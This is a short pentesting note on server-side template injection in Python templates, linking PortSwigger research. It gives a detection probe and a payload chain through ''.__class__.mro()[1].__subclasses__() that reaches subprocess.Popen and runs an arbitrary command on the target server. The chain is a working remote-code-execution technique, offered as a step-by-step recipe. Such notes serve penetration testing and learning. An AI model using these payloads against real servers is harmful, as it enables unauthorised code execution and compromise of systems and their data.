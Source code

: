 #### Sometimes when user input is accepted, either intentional or unintentional we get XSS, sometimes this also means we cen get template injection

[Report on Template Injection](https://portswigger.net/research/server-side-template-injection)

test with `{{'7'*7}}`

`{{''.__class__.mro()[1].__subclasses__()}}` _you may need to change dict selection of class to get the output of interesting functions_

_once you find it, do a replace all '>' with a newline, so that you can determine which number to specify as subclass_

Check the report carefully, as you can see that the `__` are hidden due to the processing of the data as Markdown in the initial report.
You may need to change the value 1 to get the list of interesting functions. Once you get it, you will need to find one that will give you code execution. You can use the following payload to get access to <class 'subprocess.Popen'>:

`{{''.__class__.mro()[1].__subclasses__()[X]}}`
Where X is the integer you need to find.

Finally, you can call this method using:

`{{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}}`
Where:

`X` was found previously.
`COMMAND` is the command you want to run.
Make sure you read the Python documentation for the popen to make sure you have get the right syntax for the command (or add the right option).
